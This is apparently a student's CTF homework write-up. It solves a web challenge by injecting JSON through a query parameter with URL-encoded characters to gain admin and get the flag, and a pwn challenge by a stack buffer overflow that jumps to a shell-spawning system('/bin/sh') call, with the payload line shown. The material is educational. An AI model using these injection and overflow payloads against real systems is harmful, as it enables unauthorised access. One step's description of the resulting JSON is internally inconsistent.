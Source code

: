 # HW0 writeup

## Web - owoHub
> FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}

1. Check *source code*
   - how to get flag?
   ```js
   // but the function can't be directly access by external users
   if (givemeflag === "yes" && userInfo.admin) response.send(FLAG);
   ```
   - where can be used?
      > `app.get('/auth', (request, response) => { const { username, cute } = request.query;`
      a. only check that `cute` end with `true` or `false`
      ```js
      if (typeof username !== "string" || typeof cute !== "string" || username === "" || !cute.match("(true|false)$"))
      ```
      b. `userInfo` take `cute` from the request query directly
      ```js
      const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
      ```
      c. use `userInfo` define in the previous step in the url and be used to `GET` **internally**
      ```js
      const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
      ```
2. give a random `username` and `cute`
   `https://owohub.zoolab.org/auth?username=a&cute=true`
3. make `admin` to be true
   `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true`
   - since `userInfo` is `{"username":"${username}","admin":false,"cute":${cute}}`, by injecting `cute` previous key/value pair `"admin":false`
   - make `cute` to be `true,"admin":true`, `userInfo` will then be `{"username":"a","admin":false,"cute":true}`. That is, `{"username":"a","admin":true,"cute":false}`
4. make `givemeflag` to be `"yes"`
   1. want something like this, `https://owohub.zoolab.org/auth?username=a&cute=true,"admin":true}&givemeflag=yes#true`
      > `}` close the bracket for `useInfo` which make all the things after it not a part of `userInfo`  
      > `#` point a browser to a specific part or page but all characters after `#` will not be sent in request  
      - make `api` to be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes#true&givemeflag=no`
      - the actual request being send internally should be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes`
   2. try and get `{"error":"Whaaaat owo?"}`
      - currently, `cute` is `false,"admin":true}` so that it doesn't end with `true` or `false`
      - `cute` only take the part before the next `&`
   3. *url encoding* to bypass it
      > find the correspoding encode for `"}&#`  
      - then, the url should be `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true%7D%26givemeflag=yes%23true`

## pwn - Cafe Overflow
> flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}  
> [solution](./pwn/solve.py)

1. disassemble the binary with `objdump -d -M intel CafeOverflow`
   ```nasm
   401234:	e8 17 fe ff ff       	call   401050 <printf@plt>
   401239:	48 8d 45 f0          	lea    rax,[rbp-0x10]
   40123d:	48 89 c6             	mov    rsi,rax
   401240:	48 8d 3d f6 0d 00 00 	lea    rdi,[rip+0xdf6]        # 40203d <_IO_stdin_used+0x3d>
   401247:	b8 00 00 00 00       	mov    eax,0x0
   40124c:	e8 1f fe ff ff       	call   401070 <__isoc99_scanf@plt>
   ```
   Use `scanf` to get input in the *main function* with a buffer size of `0x10`. Therefore, it's vulnerable to **buffer overflow**. Pad `0x10` characters to fill the gap and 8 more byte to overwrite `rbp` and then its our target, ***the return address***.
2. In order to get the flag, we have to open shell and read the content of the remote file, *flag*.
   ```nasm
   0000000000401176 <func1>:
   401176:	55                   	push   rbp
   401177:	48 89 e5             	mov    rbp,rsp
   40117a:	48 83 ec 10          	sub    rsp,0x10
   40117e:	48 89 c0             	mov    rax,rax
   401181:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
   401185:	48 b8 fe ca fe ca fe 	movabs rax,0xcafecafecafecafe
   40118c:	ca fe ca 
   40118f:	48 39 45 f8          	cmp    QWORD PTR [rbp-0x8],rax
   401193:	75 22                	jne    4011b7 <func1+0x41>
   401195:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402004 <_IO_stdin_used+0x4>
   40119c:	e8 8f fe ff ff       	call   401030 <puts@plt>
   4011a1:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402010 <_IO_stdin_used+0x10>
   4011a8:	e8 93 fe ff ff       	call   401040 <system@plt>
   4011ad:	bf 00 00 00 00       	mov    edi,0x0
   4011b2:	e8 c9 fe ff ff       	call   401080 <exit@plt>
   4011b7:	48 8d 3d 5a 0e 00 00 	lea    rdi,[rip+0xe5a]        # 402018 <_IO_stdin_used+0x18>
   4011be:	e8 6d fe ff ff       	call   401030 <puts@plt>
   4011c3:	90                   	nop
   4011c4:	c9                   	leave  
   4011c5:	c3                   	ret 
   ```
   Find a function, `fun1`, that never been called but call `system("/bin/sh")`. However, if call `func1`, it needs to fulfill certain requirement to jump to where it call `system("/bin/sh")`. Therefore, let it jump to `0x401195` directly.
3. Combine step 1 and 2.  
   `payload = 'a' * (0x10 + 8) + p64(0x401195)`